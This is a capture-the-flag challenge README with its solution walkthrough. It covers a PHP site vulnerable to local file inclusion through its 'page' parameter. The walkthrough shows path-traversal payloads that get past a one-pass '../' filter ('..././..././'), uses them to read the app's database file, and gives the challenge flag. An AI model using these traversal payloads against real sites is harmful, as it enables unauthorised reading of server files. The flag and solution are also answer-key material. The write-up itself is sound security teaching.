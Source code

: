 
# Mouse_Hunt

Difficulty Level: Hard

Selling the premium cheeses at the right price to mouse hunters who want to catch the golden mouse. 

Connect at http://web.ctf-fun.xyz:15012/


### Hints

- No hints are provided


## Deployment

Run  sudo ./build.sh in distrib to static file server.

## Solution

Visit the website and inspect the page and them source code.
It looks like it includes php file. This means that we might be able to exploit a LFI (local file inclusion).
/?page=home.php
/?page=about.php
/?page=contact.php
Also after each "cheese" HTML block there is the comment <!-- secret: 0 -->. There might be a secret cheese or something like that.
Let's check if there is a /robots.txt. Yes there is one.
User-agent: *
Disallow: /README.md
Disallow: /LICENSE

Visit /README.md.
There is a lot of information here.
First it gives the location of some sensible files:
●	entry index.php
●	config application/config/config.php
●	database application/database/the-cheese-factory.db
We also know there is $config['secure'] enabled.
Finally the error reporting is not disabled.
Let's finish our recon and visit /LICENSE.
No LICENSE

Ok nothing interesting here.
Now it's time to try exploit the possible LFI.
Let's try to break the page system and display an error message.
http://localhost:12080/?page=foobar
<!-- ... -->
Warning: include(./application/views/foobar): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/foobar' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
It looks like it tries to include the file given by the param page in the directory application/views.
Let's try to include the LICENSE file.
http://localhost:12080/?page=../../LICENSE
<!-- ... -->
Warning: include(./application/views/LICENSE): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/LICENSE' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
what the heck? It looks like it striped the ../../.
Let's try with specifying the current directory.
http://localhost:12080/?page=./../../LICENSE
<!-- ... -->
Warning: include(./application/views/./LICENSE): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/./LICENSE' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
It looks like it only stripped the ../ from the page param.
Let's try to isolate the behaviour.
http://localhost:12080/?page=foo/../bar
<!-- ... -->
Warning: include(./application/views/foo/bar): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/foo/bar' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
Ok it seem to only replace the ../.
It we want to bypass this system we need to create a page params that we equals to ../../LICENSE after we would remove all ../ from it.
To do it we can insert ../ between each ../.
1.	../../LICENSE
2.	..././../LICENSE (insert ../ at index 1)
3.	..././..././LICENSE (insert ../ at index 7)
http://localhost:12080/?page=..././..././LICENSE
<!-- ... -->
No LICENSE
<!-- ... -->

Yeah!
Now let's read the content of the database.
http://localhost:12080/?page=..././..././application/database/cheese.db
Even if we can't recreate the database from this, the content is still readable.

### Flag
`19C4{local_file_inclusion_is_the_secret_cheese}`
